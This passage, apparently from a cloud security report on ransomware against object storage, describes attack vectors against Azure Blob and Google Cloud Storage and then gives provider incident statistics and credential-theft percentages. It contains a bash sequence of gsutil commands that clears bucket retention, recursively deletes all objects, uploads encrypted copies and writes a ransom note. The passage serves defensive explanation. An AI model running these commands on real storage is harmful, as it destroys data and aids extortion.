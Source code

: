 **Requirement:** Attacker needs `Microsoft.Storage/storageAccounts/blobServices/containers/blobs/delete` permission

**Impact:** Soft delete protection circumvented

### Attack Vector 4: GCS Bucket Lock Manipulation

**Google Cloud Storage Object Lock:**

Object lock prevents deletion for retention period.

**Ransomware Workaround:**

```bash
# Attacker with storage.buckets.update permission

# Disable object lock (if not compliance mode)
gsutil retention clear gs://my-bucket

# Delete all objects
gsutil -m rm -r gs://my-bucket/**

# Re-upload encrypted versions
gsutil -m cp -r ./encrypted/* gs://my-bucket/

# Upload ransom note
echo "Your files are encrypted. Contact us within 72 hours or data will be permanently deleted." | \
  gsutil cp - gs://my-bucket/RANSOMWARE_README.txt
```

**Critical:** Only "Compliance Mode" locks prevent this attack (Governance Mode allows unlock)

---

## Threat Landscape Data

### Ransomware Incidents by Cloud Provider (2025)

| Provider | Storage Accounts Analyzed | Public Write (%) | Versioning Enabled (%) | Backup Policy (%) | Incidents |
|----------|--------------------------|------------------|----------------------|------------------|-----------|
| **AWS S3** | 74,000 | 19% | 62% | 38% | 4,200 |
| **Azure Blob** | 38,000 | 28% | 54% | 29% | 2,800 |
| **Google Cloud Storage** | 15,000 | 21% | 67% | 41% | 920 |

**Source:** Phoenix Protocol Cloud Ransomware Analysis 2025

### Top 5 Credential Theft Methods

1. **Phishing (IAM credentials)** - 41%
2. **SSRF (EC2 metadata service)** - 28%
3. **Stolen access keys (GitHub, logs)** - 18%
4. **Insider threat** - 9%
5. **Third-party breach (supply chain)** - 4%
